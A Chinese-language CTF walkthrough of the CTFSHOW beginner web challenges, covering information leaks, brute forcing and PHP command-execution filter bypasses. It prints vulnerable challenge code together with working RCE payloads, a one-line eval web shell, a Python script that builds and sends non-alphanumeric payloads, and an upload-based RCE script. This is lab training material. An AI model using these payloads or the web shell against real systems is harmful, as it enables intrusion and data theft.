

# CTFSHOW-WEB入门

## 一、信息收集

### web1

查看源代码，

------

### web2

F12和右键被禁用，在火狐浏览器中，可以打开应用程序菜单>更多工具>页面源代码（或者直接快捷键ctrl+u），查看源代码

------

### web3

在浏览器工具或者bp进行抓包，查看请求包在响应头

------

### web4

遗留文件robots.txt

------

### web5

[phps源码泄露](https://www.cnblogs.com/Lmg66/p/13598803.html)

------

### web6

扫描遗留文件www.zip，

------

### web7

[.git源码泄露](https://www.cnblogs.com/linfangnan/p/13600490.html)

------

### web8

[.svn源码泄露](https://blog.csdn.net/qq_36869808/article/details/88846945)

------

### web9

vim遗留文件

```
vim缓存泄露，在使用vim进行编辑时，会产生缓存文件，操作正常，则会删除缓存文件，如果意外退出，缓存文件保留下来，这是时可以通过缓存文件来得到原文件，以index.php来说，第一次退出后，缓存文件名为 .index.php.swp，第二次退出后，缓存文件名为.index.php.swo,第三次退出后文件名为.index.php.swn 
```

------

### web10

cookie遗留信息

------

### web11*

------

### web12

遗留文件robots.txt

网页信息泄露

------

### web13

网页信息泄露

扫描可疑目录链接

------

### web14

提交空间利用

------

### web15

目录扫描

信息泄露

社工信息收集

------

### web16

[探针tz.php泄露](https://blog.csdn.net/wangyuxiang946/article/details/121437511)

phpinfo()信息泄露

------

### web17

.sql配置文件信息泄露

------

### web18

js前端文件泄露

------

### web19

源码泄露

post传参

------

### web20

[数据库mdb文件泄露](https://blog.csdn.net/weixin_45441315/article/details/118979684)

<div style="page-break-after:always"></div>

## 二、爆破

### web21

字典加密爆破

------

### web22

------

### web23

get传值爆破

#### 题目代码

```php
<?php

error_reporting(0);

include('flag.php');
if(isset($_GET['token'])){
    $token = md5($_GET['token']);
    if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)){
        if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))){
            echo $flag;
        }
    }
}else{
    highlight_file(__FILE__);

}
?>

```

#### 方法一：构建脚本

```php
<?php
error_reporting(0);

$string = '0123456789';
for($a=0;$a<strlen($string);$a++){
    for($b=0;$b<strlen($string);$b++){
        for($c=0;$c<strlen($string);$c++){
            $flag = $string[$a].$string[$b].$string[$c];
            $token = md5($flag);
            if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)){
                if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))){
                    echo $flag."\n";
                }
            }
        }
    }
}
?>
```

#### 方法二：bp爆破

------

### web24

get传入随机数

#### 题目代码

```php
<?php

error_reporting(0);

include("flag.php");

if(isset($_GET['r'])){

    $r = $_GET['r'];
    mt_srand(372619038);
    if(intval($r)===intval(mt_rand())){
        echo $flag;
    }
}else{
    highlight_file(__FILE__);
    echo system('cat /proc/version');
}

?>
```

#### 方法一：脚本

```php
<?php
mt_srand(372619038);
echo mt_rand();
?>
```

#### 方法二：bp脚本


------

### web25

#### 题目代码

```php
<?php

error_reporting(0);
include("flag.php");
if(isset($_GET['r'])){
    $r = $_GET['r'];
    mt_srand(hexdec(substr(md5($flag), 0,8)));
    $rand = intval($r)-intval(mt_rand());
    if((!$rand)){
        if($_COOKIE['token']==(mt_rand()+mt_rand())){
            echo $flag;
        }
    }else{
        echo $rand;
    }
}else{
    highlight_file(__FILE__);
    echo system('cat /proc/version');
} ?>
```

随机数逆推种子

[工具php_mt_send](https://blog.csdn.net/weixin_46250265/article/details/113919405)

爆破随机数

```php
<?php
mt_srand(种子);
echo mt_rand()."\n";
echo mt_rand()+mt_rand();
?>
```

------

### web26

源码泄露

##### 方法一：post传参

##### 方法二：爆破

------

### web27

身份证缺失信息爆破

------

### web28

目录名称爆破

<div style="page-break-after:always"></div>

------

## 三、命令执行


### 类型一

变量来接受并过滤传入的数据,eval函数来执行

#### web29

```php
 <?php


error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```


##### 方法一：可使用通配符绕过

[通配符与正则表达式](https://blog.csdn.net/zgqxiexie/article/details/51184602)

```
?变量=system("指令");
这里system为命令执行函数，可以置换推荐passthru()

命令执行函数
system() 输出并返回最后一行shell结果。
exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。
shell_exec() 将字符串作为OS命令执行，需要输出执行结果，且输出全部的内容。
passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。
popen()/proc_open() 该函数也可以将字符串当作OS命令来执行，但是该函数返回的是文件指针而非命令执行结果。该函数有两个参数。
反引号 同shell_exec() 


输出函数
cat函数 由第一行开始显示内容，并将所有内容输出（被过滤！）
tac函数 从最后一行倒序显示内容，并将所有内容输出（被过滤！）
nl      类似于cat -n，显示时输出行号（被过滤！）
more    根据窗口大小，一页一页的现实文件内容（被过滤！）
less    和more类似，但其优点可以往前翻页，而且进行可以搜索字符（被过滤！）
head    只显示头几行（被过滤！）
tail    只显示最后几行（被过滤！）
sort    文本内容排列
uniq    可检查文本文件中重复出现的行列。
od od   （Octal Dump）命令用于将指定文件内容以八进制、十进制、十六进制、浮点格式或ASCII编码字符方式显示，通常用于显示或查看文件中不能直接显示在终端的字符。od命令系统默认的显示方式是八进制。
strings: 在对象文件或二进制文件中查找可打印的字符串, 在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings
paste	把每个文件以列对列的方式，一列列地加以合并
grep	 grep { flag.php打印有”{“的一行
sed		一种编辑器，可以用sed -f flag.php读取flag

readfile()			读取文件
highlight_file()	读文件
show_source()		同上
base64_decode()		base64解码
strrev()			反转字符串

空格绕过：
${IFS}
{IFS}$9
$IFS$9
重定向符：<>（但是不支持后面跟通配符）
%09 水平制表符
%0a 回车
%0d 换行

通配符

?             问号，匹配任意一个字符
*	          前一个字符匹配0次或任意多次
.	          匹配除了换行符以外任意一个字符
^	          匹配行首。例如：^helloworld会匹配以helloworld开头的行
$	          匹配行尾。例如：helloworld$会匹配以helloworld结尾的行
[]	          匹配中括号里的任意指定的一个字符，但只匹配一个字符
[^]	          匹配除中括号以外的任意一个字符
\	          转义符，取消特殊含义
{n}	          表示其前面的字符恰好出现n次
{n,}	      表示其前面的字符出现不小于n次
{n,m}	      表示其前面的字符至少出现n次，最多出现m次

eg：
[a-z]表示任何小写字母
a*会匹配所有内容，因为a可以出现0次
o{2,}不匹配Bob中o，匹配foooooood中所有的o
```


##### 方法二：

```
1.通配符fla?绕过flag检测

2.c=echo `nl fl\ag.php`;//转义字符绕过

3.通过变量赋值直接绕过c的过滤 这个后面会经常用到，到时候再细讲
c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php

4.c=eval($_GET[1]);&1=system('nl flag.php');

```

------

#### web30

```php
 <?php


error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

**payload**

```
?c=passthru("cat f*");
```



得到flag

------


#### web31

```php
 <?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```


```
?参数=echo(`指令`);
system可以用 ` 反引号来代替去执行命令
所以也可以用
?参数=echo`指令`;
```

**payload**

```
?c=echo(`tac%09f*`);
```

------

#### web32

```php
 <?php


error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

[伪协议](https://segmentfault.com/a/1190000018991087)

```
适用于include（$参数）

?c=include$_GET[a]?>;&a=php://filter/read=convert.base64-encode/resource=flag.php
或者
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

?c=include$_GET[a]?>&a=各种伪协议

data:text/plain,<?=system("tac fla*");?>

data伪协议的格式:

data://text/plain;base64,

data:资源类型(MIME类型);编码,内容


    
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=

data类型扩展
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web33

```php
 <?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}
```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web34

```php
 <?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}
```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web35

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}
```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web36

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}

```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web40

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
}

```

[无参数的rce](https://blog.csdn.net/2301_76690905/article/details/133808536)

```
无参数的rce：

scandir() :
将返回当前目录中的所有文件和目录的列表。返回的结果是一个数组，其中包含当前目录下的所有文件和目录名称

getcwd() :
取得当前工作目录

hightlight_file()、show_source()、readfile()：
读取文件内容

dirname():
函数返回路径中的目录部分

eval()、assert()：
命令执行

print_r(scandir(‘.’)); 
查看当前目录下的所有文件名

localeconv() 
函数返回一包含本地数字及货币格式信息的数组。

current() 
函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名

chdir() ：
函数改变当前的目录。

strrev():
用于反转给定字符串

array_reverse() 
以相反的元素顺序返回数组

array_flip() :
交换数组中的键和值，成功时返回交换后的数组

array_rand() :
从数组中随机取出一个或多个单元

数组移动操作

each() 
返回数组中当前的键/值对并将数组指针向前移动一步

end() 
将数组的内部指针指向最后一个单元

next() 
将数组中的内部指针向前移动一位

prev() 
将数组中的内部指针倒回一位

reset()： 
将内部指针指向数组中的第一个元素，并输出


highlight_file(array_rand(array_flip(scandir(getcwd())))); 
查看和读取当前目录文件

print_r(scandir(dirname(getcwd()))); 
查看上一级目录的文件

print_r(scandir(next(scandir(getcwd())))); 
查看上一级目录的文件

show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
读取上级目录文件

```

查看目录文件

```
?c=print_r(scandir(current(localeconv())));
```

**payload**

```
/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```

------

#### web41

```php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}

```

**payload**

```python
#-- codinI:UTF-8 --


# 导入用于发送 HTTP 请求的 requests 模块。
import requests
#导入用于 URL 编码解码的 urllib 模块
import urllib
#导入正则表达式模块
import re

#导入 sys 模块的所有内容
from sys import *

# 如果命令行参数的数量不等于2，则输出使用说明并退出
if len(argv) != 2:

    print("="*50)
    print('USER:python exp.py <url>')
    print("eI:  python exp.py http://ctf.show/")
    print("exit: input exit in function")
    print("="*50)
    exit(0)
# 获取命令行参数中的 URL 
url=argv[1]

#生成可用的字符,定义一个函数，生成可用字符的组合并写入到文件 rce.txt 中
def write_rce():
    result = ''

    # 定义一个正则表达式字符串 preg，用于匹配数字、小写字母以及一些特殊字符。
    #这一段是需要更改的
    preg = '[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-'

    # 遍历 ASCII 码中的所有可能字符。
    for i in range(256):
        # 在每次循环中，再次遍历 ASCII 码中的所有可能字符
        for j in range(256):
            #如果字符 chr(i) 和 chr(j) 都不匹配正则表达式 preg，即它们不是数字、小写字母或特殊字符之一，那么执行以下操作。
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                # 将 i 和 j 进行按位或运算，得到一个新的字符 k。
                k = i | j
                # 如果新生成的字符 k 在可显示字符的 ASCII 范围内（32-126），则执行以下操作。
                if k >= 32 and k <= 126:
                    # 将 i和j 转换成两位的十六进制形式，并添加 '%' 前缀。
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    # 将生成的字符 chr(k) 以及对应的十六进制形式添加到 result 字符串中。
                    result += (chr(k) + ' ' + a + ' ' + b + '\n')
    f = open('rce.txt', 'w')
    f.write(result)

# 定义一个函数，根据输入的命令在生成的 rce.txt 中进行匹配，返回相应的字符组合。
def action(arg):
    s1=""
    s2=""
    #对于输入的参数 arg 中的每个字符执行以下循环
    for i in arI:
        f=open("rce.txt","r")
        while True:
            t=f.readline()
            if t=="":
                break
            if t[0]==i:
                #将当前行的第3到第5个字符（十六进制表示的第一个字符）添加到字符串 s1 中。
                s1+=t[2:5]
                #将当前行的第7到第9个字符（十六进制表示的第二个字符）添加到字符串 s2 中。
                s2+=t[6:9]
                break
        f.close()
    #构造一个字符串 output，形如 ("s1"|"s2")，其中 s1 和 s2 是之前匹配到的字符组合的十六进制表示。
    output="(\""+s1+"\"|\""+s2+"\")"
    return(output)
    
#是脚本的主函数，包含整个脚本的主要逻辑。
def main():
    write_rce()
    while True:
        s1 = input("\n[+] your function：")
        if s1 == "exit":
            break
        s2 = input("[+] your command：")
        #根据用户输入的功能和命令，调用 action 函数生成相应的参数。
        param=action(s1) + action(s2)
        #构造一个字典 data，包含 POST 请求的参数，其中 'c' 的值是经过 URL 解码的参数。
        data={
            'c':urllib.parse.unquote(param)
            }
        #发送 POST 请求到指定的 URL，带上构造好的参数。
        r=requests.post(url,data=data)
        print("\n[*] result:\n"+r.text)

main()

```


------

<div style="page-break-after:always"></div>

### 类型二

变量接收并过滤传入的数据,include来包含文件

#### web37

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    }
}
```

**payload**

```
/?c=data://text/plain,<?php system("cat f*");?>
```

------

#### web38

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    }
}

```

**payload**

```
/?c=data:text/plain,<?=system("tac fla*");?>
```

------

#### web39

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
}

```

**payload**

```
/?c=data:text/plain,<?=system("tac fla*");?>
```

------

<div style="page-break-after:always"></div>

### 类型三

接受并过滤传入的变量拼接命令执行（system函数）和类型一的区别是题目中已经给了sysytem函数


就不需要我们重新构建了

#### web42

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}

```

[重定向](https://www.cnblogs.com/ultranms/p/9353157.html)

```
1：> 代表重定向到哪里，例如：echo “123” > /home/123.txt
2：/dev/null 代表空设备文件
3：2> 表示stderr标准错误
4：& 表示等同于的意思，2>&1，表示2的输出重定向等同于1
5：1 表示stdout标准输出，系统默认值是1，所以">/dev/null"等同于 “1>/dev/null”
因此，>/dev/null 2>&1 也可以写成“1> /dev/null 2> &1”
```

常用的分隔符

```
; 分号顺序执行
&& 顺序执行
|| 前边执行成功则不再执行
换行符(在url中是%0a)
& (在url中是%26)
```

**payload**

```
/?c=cat f*;
```

------

#### web43

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
/?c=tac f*%26
```

------

#### web44

```php
f(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=tac fla*%26
```

------

#### web45

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=tac%09fla*%26
```

------

#### web46

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls%26
?c=tac%09fla?.php%26
```

------

#### web47

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

命令读取的操作

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep
1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令：
grep test *file
strings
```

**payload**

```
?c=ls%26
?c=tac%09fla?.php%26
```

------

#### web48

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls%26
?c=tac%09fla?.php%26
```

------

#### web49

```php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls%26
?c=tac%09fla?.php%26
```

------

#### web50

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls||
?c=tac<>fl\ag.php||
```

------

#### web51

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=t\ac<>fl\ag.php||
```

------

#### web52

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=ls${IFS}/||
?c=ta\c${IFS}/fl\ag||
```

------

#### web53

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}

```

**payload**

```
?c=t\ac${IFS}fla?.php
```

------

#### web54

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}

```

##### 方法一：利用grep命令

**payload**

```
?c=grep${IFS}show${IFS}fla??php
```

##### 方法二：利用bin文件夹下的基本命令

linux中的bin文件夹下储存着基本命令，可以使用通配符去调用命令，bin为binary的简写，主要放置一些系统的必备执行档例如:cat、cp、chmod df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等。
 我们日常直接使用的cat或者ls等等都其实是简写，例如ls完整全称应该是/bin/ls

**payload**

```
?c=/bin/?at${IFS}f???????
?c=/bin/??t$IFS????????
```

---

#### web55

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}

```

##### 方法一：使用base64对文件进行读取

**payload**

```url
?c=/???/????64 ????????
```

##### 方法二：bzip2的使用

**payload**

```
?c=/???/???/???2 ????.???
```

##### 方法三：强制文件上传下的无字母数字RCE

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<form action="http://1dd04609-ca53-4e68-a4d7-381957302f31.challenge.ctf.show/" enctype="multipart/form-data" method="post" >

    <input name="file" type="file" />
    <input type="submit" type="gogogo!" />

</form>

</body>
</html>
```

------

#### web56

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}

```

**payload**

强制文件上传（python版）

```python
import requests
while True:
    url = "http://URL/?c=. /???/????????[@-[]"

    r = requests.post(url, files={"file": ("dota.txt", "cat flag.php")})
    flag = r.text.split('ctfshow')
    if len(flag) >1:
        print(r.text)
        break

```

------

#### web57

```php
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}

```

**payload**

```
$(())=0
对其进行取反
$((~$(())))=-1
构建出36，就是构建-37然后进行取反
$((~$((加上37个-1))))

?c=$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))=36
```

------

<div style="page-break-after:always"></div>

### 类型四

PHP代码执行，突破禁用函数,绕过disable_functions

#### web58

```php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}

```

##### 方法一：剑蚁链接（不推荐）

##### 方法二：读取文件函数进行读取flag

首先介绍一下几种函数的用法

执行命令的函数

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 
```

首先获得文件路径

| 函数名    | 功能                                 |
| --------- | ------------------------------------ |
| scandir() | 扫目录用的，返回数组                 |
| getcwd()  | 返回当前目录                         |
| glob()    | 包含匹配指定模式的文件名或目录的数组 |
| dir()     | 返回 Directory 类的实例              |
| opendir   | 打开目录句柄                         |

```
c=print_r(scandir(dirname('__FILE__')));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };

c=$a=dir(getcwd());while ($file = $a->read()){echo $file . "<br>"; };

```

读取文件函数

```
highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include（）
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
```

------

#### web59

```php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}

```

##### 方法一：剑蚁

##### 方法二：读取文件函数进行读取flag

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

------

#### web60

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

------

#### web61

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

------

#### web62

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

------

#### web63

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}

```

**payload**

```
c=print_r(scandir(dirname('__FILE__')));

c=highlight_file("flag.php");
```

---

#### web64

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname(__FILE__)));

c=highlight_file("flag.php");
```

------

#### web65

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname(__FILE__)));

c=highlight_file("flag.php");
```

------

#### web66

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname('/')));

c=highlight_file("/flag.txt");
```

------

#### web67

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=highlight_file("/flag.txt");
```

------

#### web68

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=include("/flag.txt");
```

------

#### web69

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

读取目录

```
print_r(glob("*")); // 列当前目录
print_r(glob("/*")); // 列根目录
print_r(scandir("."));
print_r(scandir("/"));
$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
$a=glob("/*");foreach($a as $value){echo $value."   ";}
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=include("/flag.txt");
```

----

#### web70

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=include("/flag.txt");
```

---

#### web71

```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);
c=include("/flag.txt");exit(0);
```

---

#### web72

```php
<?php

error_reporting(0);
